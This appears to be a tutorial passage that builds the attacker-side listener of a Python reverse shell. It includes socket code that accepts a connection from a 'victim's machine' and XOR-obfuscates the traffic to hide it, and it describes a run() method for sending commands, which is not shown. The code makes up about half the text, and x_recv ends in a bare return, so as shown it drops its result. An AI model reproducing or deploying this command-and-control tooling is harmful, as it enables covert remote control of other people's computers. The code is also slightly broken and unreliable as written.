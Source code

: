 ```python
from socket import socket, AF_INET, SOCK_STREAM, SO_REUSEADDR, SOL_SOCKET

class Listener:
    def __init__(self, ip, port):
        self.listener = socket(AF_INET, SOCK_STREAM)
        self.listener.setsockopt(SOL_SOCKET, SO_REUSEADDR, 1)
        self.listener.bind((ip, port))
        self.listener.listen(0)
        print("[+] Listening for coming connections on PORT: ", str(port))
        try:
            self.connection, address = self.listener.accept()
        except KeyboardInterrupt:
            exit("\nEXITING..")
        print("[+] New connection from " + str(address))
        self.key = self.connection.recv(1024).decode()
        self.cwd = self.x_recv()
```
In this script we will only need the `socket` library that will establish the connection to the victim's machine. We define the class Listener, the IP and port to listen on and wait for incoming connections. Once a connection is established, we receive the XOR key that will be used to encrypt the traffic (generated by the victim's machine) and the current working directory (of the victim's machine).

```python
def str_xor(self, s1, s2):
        enc = "".join([chr(ord(c1) ^ ord(c2)) for (c1, c2) in zip(s1, s2)])
        return enc
```
Next we define `str_xor()` method that will encrypt/decrypt the traffic. This method takes as arguments the string that we want to encrypt/decrypt and the key to do so. 

To send and receive data, we want to define our own method `x_send()` and `x_recv()`. These methods will handle splitting long messages to 1024 byte chunks and encrypt each chunk using `str_xor()` method. Note that we use the "done" string to indicate the end of each message.

```python
 def x_send(self, msg):
        encrypted = ""
        if (len(msg) > 1024):
            for i in range(0, len(msg), 1024):
                chunk = msg[0+i:1024+i]
                encrypted += self.str_xor(chunk, self.key)
            encrypted = encrypted.encode()
        else:
            encrypted = self.str_xor(msg, self.key).encode()
        encrypted += "done".encode()
        self.connection.send(encrypted)

    def x_recv(self):
        data = "".encode()
        while not data.endswith("done".encode()):
            data += self.connection.recv(1024)
        data = data[:-4]
        data = data.decode()
        decrypted = ""
        if len(data) > 1024:
            for i in range(0, len(data), 1024):
                chunk = data[i+0:i+1024]
                decrypted += self.str_xor(chunk, self.key)
        else:
            decrypted = self.str_xor(data, self.key)
        return 
```
Finally, we define the `run()` method that will wait for attacker input (commands) and send them to the victim's machine.
